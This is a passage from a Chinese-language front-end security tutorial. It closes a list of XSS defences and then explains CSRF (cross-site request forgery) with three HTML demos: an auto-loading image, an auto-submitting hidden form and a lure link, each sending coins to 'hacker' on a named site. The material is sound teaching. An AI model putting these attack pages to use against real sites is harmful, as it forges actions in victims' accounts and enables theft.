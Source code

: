- 其他
  - 充分利用 [CSP 内容安全策略](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
  - cookie 使用 HttpOnly 属性
  - 验证码：防止脚本冒充用户提交危险操作

### 推荐阅读

- [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)
- [AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

## CSRF 攻击（跨站请求伪造）

CSRF（Cross-site request forgery），称为“跨站请求伪造”，攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

CSRF的特点

- CSRF（通常）发生在**第三方域名**，因为外域通常更容易被攻击者掌控。但如果被攻击网站管控用户内容不严格的话，也有可能被发布恶意超链接等，这样防护起来就更困难了，因为 referer 是来自于本身。
- 和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用**服务器的漏洞**和**用户的登录状态**来实施攻击。

1. GET类型的CSRF，如页面自动发起 Get 请求

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100">
  </body>
</html>
```

2. POST类型的CSRF，如页面表单自动发起 POST 请求

```html
<!DOCTYPE html>
<html>
<body>
  <h1>黑客的站点：CSRF攻击演示</h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

3. 链接类型的CSRF

比起其他两种用户打开页面就中招的情况，这种引诱需要用户点击链接才会触发。

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```
